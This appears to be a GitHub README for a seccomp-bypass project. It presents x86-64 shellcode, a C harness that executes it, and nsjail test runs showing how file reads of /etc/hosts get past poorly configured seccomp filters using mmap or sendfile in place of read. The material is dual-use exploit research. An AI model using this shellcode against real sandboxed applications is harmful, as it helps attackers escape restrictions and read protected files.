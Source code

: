 # seccomp-bypass
seccomp is used by applications to restrict system calls it can make, thus sandboxing it. Its goal is to limit the application to only the facilities it needs to perform its job and nothing more.

The goal here is to bypass these seccomp restrictions when exploiting applications. You need shellcode that will carry out its purpose while still adhering to the application's seccomp filter. So if the filter specifies a denial of `read` and `write`, then valid shellcode may use any system call but those.

**Bypasses are possible not because seccomp is flawed, but because sometimes seccomp filters are inappropriately configured. Just like an exploit takes advantage of programming mistakes, these bypasses take advantage of configuration mistakes.**

# Premise
A typical exploit scenario is that you have a vulnerable application into which you can inject shell code. If it's sandboxed, you need to tailor the shellcode to include only the permitted system calls.

The code below is a generated application, contrived purely to run test shellcode from `src/`. The output is a test program that we run to confirm the shellcode's viability when injected into a foreign application.

&gt;: ./gen-shellcode.sh src/read-with-mmap.s
```c
#include <stdint.h>
#include <sys/mman.h>

char shellcode[] = "\x66\x41\xbb\x74\x73\x41\x53\x49\xbb\x2f\x65\x74\x63\x2f\x68"
                   "\x6f\x73\x41\x53\x48\x8d\x3c\x24\x48\x31\xf6\x04\x02\x0f\x05"
                   "\x48\x31\xff\x48\x31\xf6\x66\xbe\xff\xff\x48\x31\xd2\x80\xc2"
                   "\x01\x49\x89\xc0\x4d\x31\xc9\x4d\x31\xd2\x41\x80\xc2\x01\x48"
                   "\x31\xc0\xb0\x09\x0f\x05\x48\x31\xff\xfe\xc2\x48\x89\xc6\x48"
                   "\x31\xd2\x66\xba\xff\xff\x48\x31\xc0\xfe\xc0\x0f\x05\x48\x31"
                   "\xff\xb2\x03\x48\x31\xc0\xb0\x3c\x0f\x05";

int main(){
  mprotect((void *)((uint64_t)shellcode & ~4095), 4096, PROT_READ|PROT_EXEC);
  (*(void(*)()) shellcode)();
  return 0;
}
```
Compile it with: `$gcc -static read-with-mmap.c -o read-with-mmap`

# Examples
Below are examples of shellcodes that perform each section's goal within certain system call constraints. Each goal has one or more shellcodes using a combination of system call combinations to achieve it.

*To follow along, use [Google's nsjail](https://github.com/google/nsjail) to run programs with a specific seccomp policy.*

## Read a file from the filesystem
Each of these examples reads the file `/etc/hosts` from the target system without using the typical `read(2)` call.
### Syscalls required: `open`,`exit`,`write`, `mmap`
This example is based on shellcode from `src/read-with-mmap.s`. You can see the line `127.0.0.1	localhost` present in the output below, which is a sign the seccomp filter is bypassed successfully.

Try replacing the `read` in the DENY clause with `open`,`exit`,`write`, or `mmap`. Doing so should cause the command to fail because the shellcode in this example uses all four of those calls.

Generate the program:
```bash
f=`tempfile`; ./gen-shellcode.sh src/read-with-mmap.s > $f.c; gcc -static $f.c -o $f
```

Now run it with seccomp filters in place with `nsjail`:
```bash
~/nsjail/nsjail -Mo --chroot / --seccomp_string 'POLICY a { DENY { read } } USE a DEFAULT ALLOW' -- $f
[2017-05-12T16:48:04-0700] Mode: STANDALONE_ONCE
...
[2017-05-12T16:48:04-0700] Executing '/tmp/fileVRncd7' for '[STANDALONE_MODE]'
127.0.0.1	localhost
```

Below shows a default DENY policy. You'll need to allow a few more system calls to use it in this example. This is a wider set of calls than what is required of an application in the wild, which does "start > set seccomp filter > fork", because in this example case we have to interact with the OS to set up the process space first (doing an `execve` and not just a `fork`.

```bash
~/nsjail/nsjail -Mo --chroot / --seccomp_string 'POLICY a { ALLOW { open, write, mmap, execve, newuname, brk, arch_prctl, readlink, access, mprotect, exit } } USE a DEFAULT DENY' -- $f```

### Syscalls required: `open`, `sendfile`
This example is based on shellcode from `src/read-with-sendfile.s`. We can get away with reading a file with just these two system calls, explicitly denying the typical `read` and `mmap` calls.

```bash
f=`tempfile`; ./gen-shellcode.sh src/read-with-sendfile.s > $f.c; gcc -static $f.c -o $f
~/nsjail/nsjail -Mo --chroot / --seccomp_string 'POLICY a { DENY { read,write,mmap } } USE a DEFAULT ALLOW' -- $f
[2017-05-15T16:03:04-0700] Mode: STANDALONE_ONCE
...
[2017-05-15T16:03:04-0700] Executing '/tmp/fileCNqBB4' for '[STANDALONE_MODE]'
127.0.0.1	localhost
```

An example with default DENY:
```bash
~/nsjail/nsjail -Mo --chroot / --seccomp_string 'POLICY a { ALLOW { open, sendfile64, execve, newuname, brk, arch_prctl, readlink, access, mprotect, exit } } USE a DEFAULT DENY' -- $f
```
